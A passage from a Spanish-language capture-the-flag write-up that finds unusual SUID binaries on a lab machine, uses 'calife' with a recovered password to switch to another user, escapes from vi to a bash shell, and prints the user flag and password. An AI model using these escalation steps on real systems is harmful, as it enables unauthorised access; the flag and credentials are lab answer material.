 Veremos esta linea de aqui:

```
137981  704 -rwsr-sr-x   1 root   root   718872 May 15  2018 /usr/bin/conky
```

Y seguidamente esta:

```
137759   20 -rwsr-xr-x   1 root   root    19016 Mar 27  2018 /usr/bin/calife
```

Veremos que esos `binarios` no suelen ser muy comunes, por lo que vamos a investigar a ver que hacen:

En el `binario` `conky` no veremos gran cosa, pero si buscamos con `calife` veremos lo siguiente:

URL = [Manual binario calife](https://man.freebsd.org/cgi/man.cgi?query=calife.auth\&sektion=5\&apropos=0\&manpath=FreeBSD+13.0-RELEASE+and+Ports)

Vemos que si ejecutamos el binario junto con el nombre de un usuario podremos obtener una `shell` de dicho usuario, vamos a probar con `root`:

Tambien lo podemos descubrir por que si intentamos obtener la ayuda del `binario` veremos lo siguiente:

```
Unknown user --help.
```

Nos indica que no es un usuario `valido` por lo que vamos a intentar con `root`:

```shell
/usr/bin/calife root
```

Metemos como contraseña `chmodxheart` pero no nos dejara, por lo que vamos a probar con el otro usuario llamado `superruut`:

```shell
/usr/bin/calife superruut
```

Metemos como contraseña `chmodxheart` y nos llevara a un editor de texto `vi` por lo que vamos aprobechar eso enviando un comando para obtener una `shell` de la siguiente forma:

```shell
:set shell=/bin/bash
:shell
```

Info:

```
superruut@t800:/etc$ whoami
superruut
```

Con esto veremos que seremos dicho usuario, por lo que leeremos la `flag` del usuario:

> userflag.txt

```
ruutrulezhmv
```
